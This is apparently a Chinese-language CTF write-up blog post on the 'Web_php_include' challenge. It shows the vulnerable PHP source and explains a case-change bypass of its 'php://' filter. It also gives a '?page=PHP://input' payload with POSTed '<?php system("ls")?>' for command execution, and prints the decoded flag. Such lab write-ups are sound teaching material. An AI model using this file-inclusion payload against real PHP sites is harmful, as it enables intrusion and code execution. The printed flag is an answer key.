 ```yaml
---
layout: post
title:  Web_php_include
date:   2021-06-20 00:01:01 +0300
image:  2021-06-20-thunderstorm.jpg
tags:   [ctf,web,php]
---
```


打开网页

```assembly
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

strstr() 查找字符串首次出现的位置。返回字符串剩余部分。

str_replace()以其他字符替换字符串中的一些字符。

在使用php伪协议时，可以将php://改写为PHP://从而绕过检查。

首先查看当前路径下有什么文件，从而确定flag含于哪个文件。

使用伪协议

?page=PHP://input

post`<?php system("ls")?>`

![]({{site.baseurl}}/img/2021-06-20-files.jpg)

得到文件fl4gisisish3r3.php index.php phpinfo.php

然后利用文件包含获得fl4gisisish3r3.php文件的内容

PD9waHAKJGZsYWc9ImN0Zns4NzZhNWZjYS05NmM2LTRjYmQtOTA3NS00NmYwYzg5NDc1ZDJ9IjsKPz4K

base64解码得到

```assembly
<?php
$flag="ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}";
?>
```

